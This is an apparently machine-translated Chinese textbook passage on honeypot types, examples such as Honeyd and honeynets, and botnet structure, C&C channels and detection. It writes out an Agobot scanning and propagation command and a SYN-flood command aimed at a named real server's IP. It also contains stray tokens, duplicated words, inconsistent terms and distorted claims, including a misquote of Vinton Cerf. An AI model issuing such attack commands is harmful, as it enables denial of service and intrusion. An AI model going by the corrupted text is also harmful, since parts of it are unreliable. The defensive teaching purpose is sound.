低交互蜜罐的特点是功能受限。因此，它们也具有易于使用的优点。例如，此类蜜罐可用于确定入侵何时发生。此外，人们可以确定攻击者和攻击目标的`IP`地址和端口。然而，低交互蜜罐并不提供更多功能。因此，人们关于攻击和攻击者获得的信息较少。由于这种“简单性”，此类蜜罐易于安装，而且非常易于使用。用户界面通常非常直观且易于理解。当然，这些蜜罐有限的功能也很大地限制了潜在攻击者与系统之间可能产生的交互。这种方法的处是安全风险非常低，因为攻击者没有机会攻击并接管重要系统。低交互蜜罐主要用于个人用途。

## 中交互蜜罐

这种蜜罐类型具有更多功能，因此为攻击者提供了更多与蜜罐交互的可能性。因此，人们可以收集并利用更多关于攻击者及其攻击源的信息。交互级别的增加也使得处理和安装变得更加困难。这类蜜罐的复杂性处于低交互和高交互蜜罐之间。然而，交互增加的缺点也增加了安全风险。这是因为随着交互级别的提高，攻击者被“呈现”了一个几乎真实的系统。如果攻击者黑了蜜罐，该系统就可以被用来攻击其他系统。然而，这种蜜罐类的优点是你可以收集更多关于攻击者的信息。

## 高交互蜜罐

高交互蜜罐具有最高的复杂性，代表了具有许多真实应用的真实系统。这使得在入侵期间收集大量信息成为可能。它不仅收集有关攻击时间的信息，还提供攻击者能力及其方法和程序的信息。随着交互水平的增加安全风险之增加，此类蜜罐的安全风险非常高。这是因为入侵此类蜜罐的攻击者可以攻击其他系统并造成巨大的损害。操作这种蜜罐需要大量的先验知识，因为其安装和操作都比其他类别复杂得多。这种蜜罐主要作为研究蜜罐使用。


既然已经明确了某些“蜜罐”的定义，现在是时候讨论真正的“优缺点”了。下文将对此进行考虑。

## 蜜罐的优势

蜜罐相比于其他安全技术面临的第一个优势是易于使用。其他安全技术通常需要对相关主题非常熟悉才能运行，而在蜜罐中，只需安装它并在必要时进行一些修改。这使得处理蜜罐比处理其他技术要容易得多。自然，正如上一章提到的，更复杂的蜜罐确实需要一些先验知识。然而，最初，一个简单的蜜罐可以在不需要先验知识的情况下运行。这让每个人都有接触蜜罐并观察攻击者的机会。这在其他安全技术中并非如此。

蜜罐的另一个大优势是数据量及其相关的分析。由于其他安全技术，会收集海量的数据。然而，问题在于数据的恢复。收集的许多数据并没有意义，因此对分析来说是非必要的。尽管如此，安全技术必须记录这些数据，因为无法提前判断哪些数据是重要的，哪些是不重要的。这些大量数据有时难以及时分析和处理，可能导致系统响应时间方面的性能下降。有时甚至正常的系统请求会被阻塞。相比之下，蜜罐仅限于与攻击相关的数据，以便随后进行分析。这极大地减少了数据量，且不会影响系统功能。评估分析可以揭示安全技术中的潜在错误。这些信息可以被用于进一步开发保护机制。这正是蜜罐的优势：你必须处理的数据要少得多。然而，这些数据非常有意义，因此能够进行更快、更精确的分析。结果是你有机会通过修改和改进已应用的安全程序，对可能的问题或故障做出快速响应。

第三个大优势是硬件要求低得多。由于大多数安全程序面临着应对不断增长的互联网流量和日益增加的数据量的问题，这对硬件的处理速度 string 很高要求。未能做到会导致困难，因为安全技术无法再控制一切，从而容易导致故障。蜜罐的优势在于它们需要的资源少得多，因为它们只在实际被访问时才会做出反应。因此，蜜罐不需要特别快或高效。完全可以使用旧电脑作为蜜罐。出于这个原因，蜜罐不需要达到最先进水平，因此运行成本非常低。

蜜罐的下一个优势是能够让每个人意识到互联网带来的危险。由于蜜罐在每次攻击者尝试访问其系统时都会提醒操作员，他会被不断提醒需要足够的保护。使用其他安全技术，可能会意识不到这种危险，因为这些程序拦截了攻击，以至于用户甚至不会引起用户的注意。这可能导致错误的结论，并倾向于暗示他的系统完全没有风险。蜜罐防止了这种假设，并明确指出危险。

## 蜜罐的缺点

蜜罐具有的第一个大缺点是它们带来的风险。风险之所以存在，是因为如果攻击者入侵了蜜罐，它可以被用来攻击网络中的其他系统。这种风险和相关的损害取决于蜜罐的交互水平。正如上一章描述的，蜜罐做得越多，危险就越大。

下一个问题，也是蜜罐的另一个缺点，是蜜罐不观察周围正在发生什么，只观察影响自身的事情。因此，即使网络上发生了攻击，蜜罐也不会反应，因为它本身没有受到攻击。蜜罐只有在自己成为攻击目标时才会做出反应。

另一个主要缺点源于系统被识别为蜜罐。这可能导致攻击者未来绕过蜜罐并关注其他系统。此外，可能会发生攻击者故意利用其对蜜罐存在的知识来访问其他系统。例如，攻击者可以用攻击轰炸蜜罐，分散用户的注意力，以至于他可以不受碍地攻击其他系统。在上述研究蜜罐中，识别可能导致严重的错误。这是由于攻击者可以在攻击期间故意留下关于其自身和方法的虚假信息。但通过分析从这些信息中得出结论时，会导致错误的结论。如果这些失败进入了下一个版本的安全软件，就会产生一个巨大的问题。通过这种方式，它可能会被操纵，并且不再是保护系统，而是创建了新的系统。

## 蜜罐示例

现在已经详细解释了蜜罐的原理，是是时候看一些实际例子了。当然，今天有大量的蜜罐在使用。因此，下文展示了三种不同的蜜罐，基于此人们可以很好地看到不同的应用可能性。作为第一个例子，我想介绍一个名为 Back Officer Friendly 的相当简单的蜜罐。第二个例子是一个更复杂的蜜罐，名为 `honeyd`。作为最后一个应用，我们将转向蜜罐网络（honeynets）。

### Back Officer Friendly

我想在这里介绍的第一个例子是 Back Officer Friendly（简称 `BOF`）。这是目前可用最简单的蜜罐之一，可以归类为低交互蜜罐。`BOF` 可以很好地作为生产蜜罐使用，但不适合作为研究蜜罐。原因是该程序的功能非常有限，而且在发生攻击时，收集关于攻击者及其方法的信息也非常少。但在详细解释其功能之前，先简单说一下 `BOF` 的起源。

`BOF` 最初并没有被构想为蜜罐，它实际上是开发为针对当时流行的一种名为 `Back Orifice` 的程序的措施。因此，`Back Orifice` 是一个巨大的危险，因为攻击者可以在不引起注意的情况下渗透系统并随心所欲地控制。当 Marcus Ranum 在 1998 年开发 `BOF` 时，他的目标是创建一个能够揭示这种当时流行的程序活动的软件。`BOF` 的设计目的是一旦发现 `Back Orifice` 攻击就立即触发报警。

`BOF` 的过程可以描述如下：该程序可以监听系统的最多 7 个不同端口。如果尝试与其中一个端口建立连接，`BOF` 会建立一个完整的 `TCP` 连接，同时记录建立连接的尝试并触发警报提醒用户。然后 `BOF` 立即断开连接。显而易见，`BOF` 收集的信息很少，因为程序在建立连接后立即终止了连接。


尽管 BOF 的功能非常有限，但该程序非常适合检测针对系统的攻击，从而找到导致安全失效的有效方法。通过这种方式，公司也可以意识到存在安全风险，从而增强对采取安全措施必要性的认识。

## Honeyd

Honeyd 由 Niels Provos 开发于 2002 年发布。该程序是一个针对 Unix 系统的开源系统。该程序免费，这一事实不仅让任何人都可以轻松下载，而且对源代码的每一次访问都具有巨大的优势。由于每个人都可以参与代码工作，因此它的开发速度可以非常快。因此，该程序提供了集成新功能或修复错误的可能性。

尽管具有扩展性，但 Honeyd 由于使用相对简单，仍然可以归类为低交互蜜骗罐（low-interaction honeypots）。此外，Honeyd 被设计为生产蜜骗罐，但在某些情况下也适用于研究蜜骗罐。之所以可以作为研究蜜骗罐，是因为 Honeyd 使某些应用程序对研究目的变得有用。

该程序背后的特殊之处，一方面是它可以监控每一个可能的 TCP 端口。Honeyd 不会在其自己的端口上记录活动，而是假装成背后没有真实系统的 IP 地址的身份。因此，在发生攻击时，它可以模拟被指向的系统，并作为这个复制的系统与攻击者交互，从中获取信息。但 Honeyd 不仅可以模拟一个系统，还可以模拟极多个系统。这正是 Honeyd 提供的第二个特殊特性。

由于 Honeyd 仅在网络背后没有真实系统时才会模拟网络中的系统，因此产生了信息从何处获得的问题。因此，必须明确哪个 IP 地址后面有真实系统，哪个没有。如果一个 IP 地址后面没有真实系统且该地址被访问，则假设这是一次攻击，Honeyd 会干预。检测不存在系统有两种方法。第一种是网络或网络部分根本没有被使用。这时，任何 IP 地址后面都没有真实的 IP，Honeyd 使用了一种名为 `blackholing`（黑洞化）的程序。这种方法提供了监听整个区块而不是单个 IP 地址的能力，节省了大量的时间和复杂性。第二种使用频率更高，用于真实系统和不存在的系统在网络中共存的情况。为了找出此类网络中没有真实系统的 IP 地址，使用了地址解析协议，简称 `ARP`。该协议能够确定 IP 地址背后的 MAC 地址（媒体访问控制）。如果此 MAC 地址不存在，则没有系统。这允许你快速、方便地分离这两个陷阱。

如果你尝试连接到一个背后没有真实系统的端口，Honeyd 会假装成一个系统，并根据该系统与攻击者交互。

## Honeynets

在此处，我想介绍的最后一个例子是最重要且最强大的东西。蜜骗网（Honeynets）的概念最早于 1999 年作为题为《构建蜜骗罐》论文的一部分被引入。这是首次提出将每个公司存在的普通网络作为蜜骗罐。当蜜骗网项目（Honeynet Project）于 2000 年成立时，蜜骗网在调查网络攻击者方面承担了核心角色。该项目利用蜜骗网收集有关攻击者及其方法的信息。他们的工作结果是一系列论文，后来以合集的形式汇名为《了解你的敌人》的书。

蜜骗网可以清楚地归类为高交互蜜骗罐（high-interaction honeypots），因为蜜骗网与攻击者之间的交互连接没有任何限制。蜜骗网的想法是构建一个像业务中常见的普通的真实网络。这个网络后面有一个名为 `Honeywall` 的屏障。这样就可以很容易看到发生了什么，因为否则这个物理网络在网络架构中没有任何其他用途。网络设计和系统上的单个应用程序可以完全自由选择，这使得蜜骗网极具灵活性。因此，蜜骗网旨在将蜜骗罐的概念提升到更高水平，但基本思想是相同的。这些蜜骗网是蜜骗罐的演进。

因此，蜜骗网既可以作为生产蜜骗罐也可以作为研究蜜骗罐。将蜜骗网作为生产蜜骗罐的原因是蜜骗网可以很好地处理已知和未知的攻击模式，从而检测到原本无法发现的攻击。结果是异常可以以很概率被检测并报告，这反过来为公司提供了良好的保护。然而，蜜骗网很少作为生产蜜骗罐，因为它太复杂、太昂贵了。

然而，蜜骗网作为研究蜜骗罐具有良好的应用前景。这主要因为它们在攻击期间可以收集大量信息。这些信息不仅包括关于攻击者本身的数据，还包括他所使用的方法和工具。蜜骗网的优势在于，攻击者甚至没有注意到自己入侵了蜜骗网。因为它是像任何其他网络一样构建的，攻击者根本识别不出区别。一旦进入蜜骗网，它就会在攻击者察觉之前存储所用工具的所有操作和功能。这使得蜜骗网的使用如此有效。这些价值信息可以用于非常好的分析，从而发现趋势和模式。因此，甚至可以对攻击行为做出预测或在攻击早期阶段发出警告。此外，蜜骗网还可以用于测试新的安全技术。你只需要在蜜骗网上安装新的安全方法，并看看在遭到攻击时是否可以被破解。

## Future of Honeypots

尽管蜜骗罐已经在市场上了相当一段时间，但接受度并不大。底层的问题之一是你们还没有对如何定义蜜骗罐达成共识。由于公司并不切切从使用蜜骗罐中获得什么收益，他们完全不理会它。因此，最重要的任务是开发出最强大的蜜骗罐，让公司意识到蜜骗罐的优势并利用它们。结果是，接受度无疑会增加，安全专家进一步开发带来的收益将大幅提高，这反过来有利于蜜骗罐的发展。

遗憾的是，定义缺乏统一并不是蜜骗罐唯一的问题。另一个缺点是操作仍然相对沉重。今天的蜜骗罐，特别是研究蜜骗罐，通常有一个不可管理的运行表面，使得此类蜜骗罐的操作变得非常困难和复杂。处理困难也会自动由于用户的误调而导致更大的错误责任。此外，蜜骗罐尚无法与其他安全技术进行通信。如果蜜骗罐受到攻击，它会检测并记录，但信息不会被转发到其他安全程序。通过蜜骗罐与安全技术之间的相应交互，可以快速且不费力地避免进一步的攻击。在未来，这些问题可以通过蜜骗罐的进一步开发而消除。


Lance Spitzner 在书中也提出了一个预测，即蜜罐系统（honey-pots），尤其是研究型蜜罐系统，仍有巨大的潜力。到目前为止，的发展仅实现了对未来应用的一些方法探索。蜜罐的一个可能用途是检测攻击模式。因此，通过分析收集的信息，可以识别可能的模式，从而在早期阶段对攻击者发出警告。另一个应用是针对寻找高度敏感数据的攻击者进行专门化处理。另一个可能的目标是让蜜罐不再孤立工作，而是分布在全球各地的多个蜜罐之间建立协作。其优势在于，每个蜜罐收集的数据被共同分析，使其准确性大大提高。结果是产生了更好的保护机制。

## 第 13 章 – 僵尸网络 (Botnets)

僵尸网络现象是垃圾邮件和拒绝服务攻击等众多网络威胁的基础。本节通过介绍僵尸网络的基本元素、特征，概述了僵尸网络的工作原理。文中还解释了开启、分析和停止生产僵尸网络的不同方法。

## 引言
互联网的稳定增长伴随着犯罪和破坏性力量的增加，范围从纯粹的破坏性破坏到组织犯罪应有包。僵尸网络是一个广为人知但很少开发的领域，它是许多关键恶意机制（如垃圾邮件、分布式拒绝服务 (DDoS) 和数据间谍活动）的起点。

Vinton Cerf 在 2007 年的世界经济论坛上提议，所有连接到互联网的 PC 都是恶意僵尸网络的一部分 [Foru07]。然而，此前的安全相关方法侧重于预防、过滤和规避由僵尸网络引起的攻击。只有少数方法直接处理僵尸网络的基础和运行机制。

### 僵尸网络 – 定义与界定
僵尸网络是一组个体计算机系统，这些系统在用户不知情的情况下被恶意软件感染，并由单个人远程控制。被感染的终端被称为 `zombie`（僵尸）或 `bot`，较少情况下称为 `drone`（无人机）。远程控制僵尸网络的个人被称为 `botmaster`（主控）。`C & C` 通道（命令与控制）已成为主控与僵尸网络之间通信通道的术语 [RZMT06]。

主控与机器人之间通过 `C & C` 通道进行的 `1: n` 通信是僵尸网络的基本定义特征。此外，“僵尸网络”仅指那些意图实施有害和犯罪行为的结构。毕竟，僵尸网络只是一个可以但不必制造危害的工具。

具有类似性质的结构，如 `Folding@home` 或 `Mersenne Prime Search`，是和平且有意义的服务，不被归类为僵尸网络。

今天发现的恶意机器人演变自 20 世纪 90 年代初经典的 `IRC` 机器人。`Eggdrop` 是最早此类机器人之一，它通过执行数据库查询或提供帮助等功能为 `IRC` 用户提供聊天支持。基于 `Eggdrop` 的模块化，人们开发了第一批可以用于实现恶意意图的机器人程序。然而，第一批攻击局限于 `IRC` 领域的 DoS 攻击，例如通过自动“洪水攻击”。这些机器人随着时间的推移不断演变，但保留了 `egg-drop` 的模块化和对 `IRC` 的控制 [CoJM06]。

与此同时，僵尸网络被用于纯粹的破坏活动（“脚本小子”），也用于商业欺诈、勒索、垃圾邮件和钓鱼攻击 [CoJM06]。它还识别了一个紧密合作以开发和改进恶意软件的社区。如果机器人的源代码是公开的，它们会以特定场景伪名的形式显示出大量的用户签名。代码经常被重用；源代码中包含指定原始代码来源的注释。通常，这些是预先存在的恶意软件，如计算机病毒、蠕虫或木马。

### 常见的僵尸网络系统
对现有机器人进行分类非常困难。现有的 Bot 软件经常被重写多次、扩展和修改；有时已知的机器人变体达 4,000 种（`SDBot` 和 `Agobot`）。以下是列出的最广受欢迎和目前流行的僵尸网络选择：

#### Agobot/Phatbot/Forbot/XtremBot
几乎所有常见机器人的核心都是 `Agobot`，它首次发布于 2004 年，其程序员在同年被捕。该机器人用 `C++` 编写，提供模块化和抽象的软件架构。源代码在 GPL 协议下发布，尽管没有中央参考源。多年来，`Agobot` 扩展了多次，目前的源码包包含所有模块、扩展、附加工具和替代实现，大小约为 140 MB。`Agobot` 使用 `libpcap` [BHKW05] 监听网络流量，并支持 `PCRE`（Perl 兼容正则表达式）和 `NTFS ADS`（替代数据流），以及经典 rootkit 的功能。新版本能够通过检测调试器和如 `SoftICE` 或 `VMware` 等虚拟机来防止对 `C & C` 参数的读取 [BHKW05]。`Agobot` 通过 `SSL` 对 `C & C` 通信进行加密，并提供用于感染 Linux 系统的特殊版本 [CoJM06]。

#### SDBot/RBot/RBot-GR
`SDBot` 及其衍生用 `C` 编写并在 GPL 下发布。源代码短小且简洁，尽管缺乏抽象性且没有模块化支持。基础系统中未实现破坏功能，仅提供处理 `C & C` 命令的基本功能。添加恶意功能只需对源代码进行极小的修改。`SDBot` 还利用其他恶意软件留下的后进行首要感染，以及 Windows 操作系统和点对网络软件的漏洞 [CoJM06]。已知超过 4,000 种变体。随后重构的源码可以推断出 100 多名程序员的身份。

#### Storm Worm/CME-711/Troj.Dorf/Win32.Nuwar
`Storm` 僵尸网络估计有 100 万个受感染系统，是迄今观察到的最大的。机器人软件 `CME-711` 的构造研究较少，明确可归类的源代码并未公开。该电力僵尸网络在 2007 年期间负责多次具有商业利益的 DDoS 攻击，这些攻击在行业媒体上有所报道。

#### Clickbot
Clickbot 是一种商业可用或可租赁但非法且有害的僵尸网络系统。拥有 100,000 个机器人的僵尸网络于 2006 年 5 月被发现。Google 投入了大量的精力分析该僵尸网络，以便能够使用有效的过滤器进行点击模拟。

机器人是以 `BHO`（浏览器辅助对象）的形式为 `Microsoft Internet Explorer` 实现的，因为 `C & C` 通道使用 `HTTP`。Bot 软件的传播通过“社会工程学”和利用 `Microsoft Internet Explorer`get 的安全漏洞进行。管理通过用 `PHP` 编写并以 `MySQL` 为后端的去中心化管理系统进行。管理系统的源代码被没收并发布 [DaSt07]。

### 运行
机器人系统的生命周期可以分为几个阶段和角色。在导入受害者系统（初级感染）后，重新加载实际机器人软件（次级感染），之后通过 `C & C` 通道联系主控，并随后执行其命令。

#### 侵受害者系统
在僵尸网络环境中，新受害者系统的获取并不像传统计算机病毒那样不受控制。通常情况下，现有的机器人受主控指示去寻找并感染新的受害者系统。它利用了受害者系统中的安全漏洞。


僵尸网络的传播机制是互联网上“背景噪声”（由恶意软件网络扫描器引起的网络流量）的主要原因之一，主要发生在端口 `445/TCP`、`139/TCP`、`137/UDP` 和 `135/TCP`。根据“蜜罐网络项目”，测得的被动网络流量中，80% 是平均互联网连接到这些端端口的 [BHKW05]。与之相关的是操作系统“Microsoft Windows”从 NT 到 XP 版本的已知安全漏洞。常见的攻击源还包括网络游戏、点对传输程序以及电子邮件客户端中的安全漏洞。此外，还可以观察到机器人会利用其他恶意软件的功能将自己安装到受害者系统上 [CoJM06]。除了利用安全漏洞，还会使用“社会工程”方法以及导出指令。

通常，被感染的系统会立即执行下载。下载的 URL 直接或间接地给出初次感染的二进制文件中。常见的协议包括简易文件传输协议 (`TFTP`）、文件传输协议（`FTP`, [PoRe85]）、超文本传输协议（`HTTP`, [FGMF + 99]）或用于向 IRC 用户发送文件的协议 `CSend`。后者在 IRC 作为 C & C（命令与控制）通道的范围内特别有用。用于感染系统的软件通常还没有参与僵尸网络的功能 [RZMT06]。下载后，执行下载的二进制文件并将其注册到操作系统中，以便在系统启动时自动运行。通常，现有的机器人充当这些二级“二进制文件”的服务器 [RZMT06]；在某些情况下，被破坏的 Web 服务器或免费空间提供商也会被其他方式滥用 [BHKW05]。

例如，`Agobot` 在初次感染后仅包含 40 个所谓的“命令”，它可以远程导出。这些命令仅涵盖了通过 IRC 通信和下载额外组件的领域。因此，任何破坏功能都必须由二级二进制包随后添加。

`Agobot` 的开发（被称为 `Phatbot`）在初次感染 (`Primarinfektion`) 后也提供了导出 DDoS 攻击的功能和数据嗅探 (`Ausspahen`) 功能。因此，二进制文件可以预配置为执行有害活动，而无需来自 C & C 通道的控制命令。

## C & C 通道

各种协议被用作控制机器人的 C & C 通道。广泛建立的是 `IRC` 协议。点对传输系统的兴起（它们也可以以聊天规范的形式包含自由定义的指令）也使得 `e2k`、`Gnutella` 或 `FastTrack` 等协议变得流行。

偶尔，机器人程序的模块化结构允许访问多种不同的协议。2003 年的 `SDbot` 不仅可以使用 `IRC`，还能使用已建立的点对传输协议作为 C & C 通道 [CoJM06]。

### IRC

尽管最近有所发展，通过 `IRC` 通信仍然是最广泛使用的通信通道。这由于协议的灵活性以及可用于编写恶意软件的免费实现。

在典型场景中，主控在服务器上运行 `IRC` 通道，机器人会自动连接到那里。`IRC` 通道大多受密码保护。用户名、密码、通道和服务器服务器永久集成在二进制恶意软件中。大多数情况下，使用动态 URI 在需要时更改服务器。

要成功连接到 `IRC` 通道，需要根据特殊算法形成用户名，并通过 `IRC` 特有的 `PASS` 命令正确传输密码 [RZMT06]。`IRC` 协议不提供任何加密，因此所有访问数据都可以从网络嗅探中获取。

身份验证成功后，`IRC` 服务器将消息发送给机器人：`RPL_ISUPPORT`、`RPL_MOTDSTART`、`RPL_MOTD`、`RPL_ENDOFMOTD` 和 `ERR_NOMOTD` [OiRe93]。`RPL_MOTD` 可以在机器人进入通道之前向其传输命令。例如，可以指定新的通道名称或备服务器。

机器人进入后解析 `RPL_TOPIC` 并立即执行命令。在常见的机器人中，`RPL_TOPIC` 遵循由方法名和参数组成的简单语法。

形如 `.advscan lsass 200 5 0 -r -s` 的 `RPL_TOPIC` 指令机器人例如：通过搜索延迟为 5 秒且无时间限制（0）的漏洞受害者，继续通过 LSASS 安全漏洞传播自己 [BHKW05]。

20 世纪 90 年代，公共 `IRC` 通道被用作 C & C 通道。对于公共 `IRC` 服务器的管理员来说，这种滥用是一个重大的安全风险。过滤器和其他分析方法的使用非常广泛。然而，现代观察表明，当前的僵尸网络几乎完全使用单独修改的 `IRC` 服务器软件。这些修改过的 `IRCd` 通常不遵循 `RFC 1459` 中指定的属性 [OiRe93]。为了让僵尸网络中的机器人数量无法获取，根据规定，不会输出 `IRC` 协议规范要求的用户列表 [BHKW05]。为了通信，删除了规范中不必要的子集。特别是由于源码免费而流行的 `IRCd` "unrealircd"，被大量修改以用作 C & C 通道。在相关的点对传输网络中，出现了 `IRCd` 版本，允许每个通道拥有多达 80,000 个用户，从而拥有 80,000 个机器人 [BHKW05]。这种性能通过省略 `JOIN`、`PART` 和 `QUIT` 的广播消息来实现。此外，没有实现规范中的强制性消息 `LUSERS` 和 `RPL_ISUPPORT` [OiRe93]，以增加 C & C 通道外部分析的难度。还可以观察到用于保护僵尸网络的额外机制实现。例如，修改过的 `IRCd` 仅允许特定语法或来自特定网络区域的用户名 [BHKW05]。

最近的观察显示，当前的僵尸网络引入了额外的加密和安全机制，因此 `IRC` 通道仅作为隧道 [Netw07]。通过 `IRC` 通道控制僵尸网络是一种主要的通信类型。如果这个中心接口被破坏，僵尸网络将不再被控制。从攻击防御的角度来看，这是一个优势。从主控的角度来看，这种中心化的部署导致了低通信延迟 [CoJM06]。

### P2P

与传统的 `IRC` 通道经典方法相比，使用点对传输网络作为 C & C 通道追求的是去中心化策略。`P2P` 系统上的通信通常不会被中断或或费费精力被破解。追踪流量是复杂的。从主控的角度来看，缺点是通道的不确定性以及缺乏控制。对于 `P2P` 系统，已经有了主控可以使用的流量匿名机制 [CoJM06]。`P2P` 系统作为 C & C 通道在文献中讨论较少。

### HTTP

特别是针对在 WWW 上导出有害操作而优化的机器人系统（例如模拟点击商业广告、操纵网络赌场和网页游戏）使用 `HTTP` 作为 C & C 通道。示例有 `Clickmaster` 和 `Clickbot.A` [DaSt07]。它们通常作为“Microsoft Internet Explorer 实现”软件的浏览器辅助对象 (`BHO`) 存在。通过与网络浏览器集成，`BHO` 可以在无需大量实现工作的情况下访问 WWW 资源。


参考现有的全中心化 P2P 系统，机器人之间也可能在不使用所有通用和特定协议的情况下，进行完全去中心化的通信。在这种情况下，机器人可以主动扫描其网络的其他成员，并向发现的机器人发送加密消息。这种系统的延迟非常高。目前尚未在生产形式中观察到此类系统 [CoJM06]。

## 命令翻译

`Botmaster` 命令向单个机器人的传输采用的是一种无法用通用术语指定的语法。无法对其形状做出通用的描述。流行的 Agobot 使用了这种语法格式：

`. <command_class> [. <subcommand>] <parameter> * .`

这就是命令的顺序。

```bash
.ddos.syn 129.13.182.1 21 200
```

机器人通过 `21` 端口对卡尔斯鲁厄大学的 Web 服务器进行为期 200 秒的 DoS 攻击。

## 应用与命令类

僵尸网络首先是一个可以作为执行潜在犯罪和有害行为基础的工具。简而言之，应该按照发生的频率顺序考虑各种危害潜力：

### DDoS

“分布式拒绝服务”是僵尸网络最常见的威胁。根据 [Netw07] 的调查，所有观察到的僵尸网络中，71% 处于 DDoS 攻击中。在这种情况下，`botmaster` 命令所有机器人向定义目标发送过量的网络流量。由于请求过多，受攻击的服务器无法正常提供服务。调查显示，目前僵尸网络的大多数攻击通过 `UDP` 进行。应用层或 `TCP` 攻击仍然滞后 [Netw07]。因此，DDoS 是僵尸网络及僵尸网络带来的主要威胁。

### 垃圾邮件

64% 的所有观察到的僵尸网络会发送垃圾邮件 [Netw07]。这通常通过受感染系统上的 `SOCKS v4 / v5` 代理进行 [LGLK + 96]。Ago-bot 能够能够构建思科系统的通用通用路由封装 (HLFT94) 隧道，这使得封装电子邮件协议变得简单 [CoJM06]。34% 的所有观察到的僵尸网络能够提供此类开放代理来发送垃圾邮件和其他活动 [Netw07]。

### 数据窃取

某些机器人能够像经典的木马病毒一样从受害者系统中汇总信息并将其发送给 `botmaster`。这些特别是存储在系统上的电子邮件地址、密码和其他身份数据（僵尸网络中的 16% [Netw07]）。此外，僵尸网络还为钓鱼提供了各种元素（所有僵尸网络的 37%）。

### 其他

由于僵尸网络拥有来自常规互联网服务提供商（ISP）池的各种 IP 地址，僵尸网络越来越多地用于商业欺诈。这里的主要供应商是在线广告提供商（例如 Google AdSense [DaSt07]）。在这种情况下，机器人会在商业提供者的广告上产生虚拟点击。在线投票供应商、在线游戏以及更多的商业网络赌场和扑牌游戏提供商也发现了这种欺诈 [Netw07]。

此外，僵尸网络在过去经常是传播新型恶意软件的起点。

## 追踪僵尸网络

### 病毒扫描器

对受害者系统中机器人软件的识别遵循与其他恶意软件相同的相同的策略。所有商用病毒扫描程序都能检测并删除已知的机器人软件。这种已知方法在此处不再进一步讨论。

### 蜜罐/蜜罐网络与恶意软件收集

受控安装可能受感染的受害者系统并分析感染情况，在广义上通过恶意软件收集手段（即蜜罐）进行。如果目前有一个由此类蜜罐组成的网络，则称为蜜罐网络 [BHKW05]。蜜罐/蜜罐网络的使用和操作非常复杂，不应在此处讨论。

恶意软件收集通常指的是隔离恶意软件，特别是机器人软件。在这两种方法中，重要的是隔离 `C & C` 通道；如果必要，则带有必要的登录和通信锁定参数。这可以通过通过听由受感染系统生成的网络流量，或者通过分析二进制文件来实现。特别是由于通过 `IRC` 登录通常不进行加密，登录参数通常易于获取 [BHKW05]。

### 无人机 (Drones)

模拟僵尸网络中机器人行为以汇总信息的可控制软件被称为“无人机”。该无人机软件用于分析僵尸网络的大小。

### 基于 IRC 的僵尸网络检测

通过使用过滤器可以找到潜在的 `IRC C & C` 通道。一种简单的方法是过滤 `TCP` 端口 `6667` 网络流量以寻找已知的僵尸网络命令。但必须注意的是，不同僵尸网络中的命令非常多，且可以使用 `6667` 以外的端口 [CoJM06]。

另一种方法是搜索 `IRC` 通信中的特征模式。通常情况下，人在很一段时间内是“沉默的”，然后对 `botmaster` 的命令做出快速且大量的响应。这些响应比人类响应更快。这类系统通常能成功发现僵尸网络，但错误率很高 [Raci04]。然而，通过 `IRC` 进行僵尸网络通信的通用特征并不明显 [CoJM06]。

## 结合与数据挖掘

迄为止所有知的僵尸网络检测系统都存在高失败率。要么只能先验检测出一小类僵尸网络，要么检测密度非常低。新方法建议结合不同的方法。

可以对现有数据进行僵尸网络特征属性的分析。特征包括对未使用的 `TCP` 端口扫描量的增加、`DNS` 缓存的读取以及发送二进制文件的分析。这些方法的结合可以用于全面的警报系统 [CoJM06]。

## 僵尸网络大小分析

虽然过去包含 80,000 和 140,000 个机器人的僵尸网络被归类为危险，但近年的报告警告包含数百个机器人的小型僵尸网络 [Netw07]。因此，以平均活跃机器人估计形式表示的大型僵尸网络是评估即时网络危险潜力的重要特征。

小型僵尸网络的发展有几个原因。首先，小型僵尸网络比大型僵尸网络更容易被更健壮的安全软件检测到。因此，小型僵尸网络在影响场景中具有更高的市场价值，可以更容易租赁或出售 [CoJM06]。家庭 PC 向宽带连接的迁移也消除了获取多个机器人的需求。由于平均有线互联网连接上传速度约为 `1Mbps`，只需数百个机器人即可达到 `OC3` (`155Mbps`) 链路的容量。因此，攻击者只需少于 200 个机器人即可实施有效的 `dDoS` 攻击。

尽管如此，僵尸网络大小的评估仍然是当前研究的一个争议性话题。Dagon 等人调查了一个据称拥有 350,000 个活跃机器人的僵尸网络 [DaZL06]。

### 僵尸网络大小定义

僵尸网络的大小是最重要的特征，但对于如何定义这种规模存在普遍分歧。确定大部分观察到的僵尸网络的一个问题是区分活动机器人和被动机器人。活动机器人通常只占机器人总数的 5-10% [RZMT07]。僵尸网络大小参数始终与所使用的测量方法、相关的副作用以及背景相关。


此外，僵尸网络的大小并不能说明该僵尸网络所构成的危险性。此外，被动和活跃僵尸的划分并没有明确定义，且在现测量方法中难以访问。

因此，文献中建立了两种定义。僵尸网络的足迹（footprint）表示了僵尸网络在给定时间点的潜在 `Gesamtgrobe`（总量）。所有僵尸软件配置为加入所观测僵尸网络的受感染系统都被计算在内。该参数提供了有关信使网络分布率以及传播机制有效性的信息。僵尸网络的足迹是随时间变化的，取决于受影响系统的每日扩散情况和采取的应对措施 [RZMT07]。足迹的另一个术语是被动和活跃僵尸的数量。

第二种定义提供了关于活跃种群（live population）的指示。该参数描述了在给定时间通过 `C & C` 通道可以直接获取的可用僵尸数量。因此，根据种群规模，可以对僵尸网络的潜在危险性做出判断。但无法推断出其分布情况 [RZMT07]。另一个名称是活跃僵尸的数量。

## 估算僵尸网络规模的方法

确定这些变量的不同方法是研究的主题：

### 渗透 (Infiltration)

渗透是一系列技术，观察者通过连接到 `C & C` 通道来读取僵尸主的命令。这种技术使得在 `dDoS` 攻击实际开始之前就能识别攻击目标。

目前仅针对将 `IRC` 协议作为 `C & C` 通道的存在专用工具，这些工具允许观察者以无人机的身份潜入僵尸网络。“IRC Tracker” [RZMT06] 使用从主感染二进制文件中提取的 `IRC` 访问数据创建，并连接到 `C & C-channel`。该软件声称具有高计算能力和高带宽。特别是由于 `Agobot` 和 `SDBot` 的源代码是公开的，`IRC Tracker` 还提供了对普通僵尸取决于条件的答复的模拟。它还能提供一个 `SOCKS v4` 代理。“Drone”提供了一个清晰的架构，以便将软件适配到修改过的 `IRCd` [BHKW05]。这两种软件都会创建 `IRC` 聊天中所有命令的日志文件。

